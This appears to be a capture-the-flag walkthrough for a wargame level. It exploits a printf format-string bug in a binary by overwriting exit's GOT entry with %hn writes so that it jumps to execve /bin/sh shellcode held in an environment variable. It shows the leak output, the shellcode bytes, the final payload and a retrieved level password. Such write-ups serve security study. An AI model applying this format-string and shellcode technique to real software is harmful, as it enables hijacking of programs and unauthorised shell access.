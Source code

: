 # Level05

## Setup

We find a binary file at the root of the user **`level05`** named *`./level05`*.

```bash
scp -r -P 4242 level05@<vm_ip>:/home/users/level05/level05 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Source
```C
char s[100];
...
fgets(s, 100, stdin);
...
printf(s);
...
exit(0);
```
Unprotected printf alert ! exit is called after, we will redirect exit to a malicious shellcode

## bash
```bash
	> python -c "print 'aaaaaaaa' + '%p '*30" | ./level05 
	aaaaaaaa0x64 0xf7fcfac0 0xf7ec3add 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x61616161 0x25207025 0x70252070 0x20702520
```
Our buffer is located at the 10th pointer using the %p exploit in printf, so we will overwrite at %10$n

## gdb
```bash
> disas exit

Dump of assembler code for function exit@plt:
0x08048370 <+0>:	jmp    *0x80497e0
0x08048376 <+6>:	push   $0x18
0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

We will modify exit got entry address content so that the program jumps into our malicious shell code:

```C
`char sc[] = "\x6a\x0b" // push byte +0xb`
	"\x58" // pop eax
	"\x99" // cdq
	"\x52" // push edx
	"\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
	"\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
	"\x89\xe3" // mov ebx, esp
	"\x31\xc9" // xor ecx, ecx
	"\xcd\x80"; // int 0x80
```
## bash
```bash
	export SHELLCODE=$(python -c "print '\x90'*500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")
```

We had a difficult time finding the exact entrypoint to our shell code so we added a nopsled before

## gdb
```bash
> b main
> r
> x/200s environ
...
0xffffdd40:"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\..."
> x/200c 0xffffdd40
0xffffdd40:	80 'P' 65  'A' 89  'Y' 76  'L' 79  'O' 65  'A' 68  'D' 48  '0'
0xffffdd48: 53  '5' 61  '=' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'
0xffffdd50: -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'	-112 '\220'	-112 '\220'	-112 '\220'
```
Let's take an address inside of our nopsled, 0xffffdd58

Now the issue is that ffffdd58 in decimal is a too big number, but thanks to the `h` printf modifier we will write `dd58` to `exit+2` and then `ffff` to `exit` instead of `ffffdd58` in one go: \
0xffffdd58 - 8 = ffffdd50 (minus 8 because we write our 2 addresses before) \
dd50 = 56656 \
ffff - dd58 = 8879	

## Payload
```bash
> python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56656c" + "%10$hn" + "%8871c" + "%11$hn"' > /tmp/payload05
> cat /tmp/payload05 - | ./level05
> cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```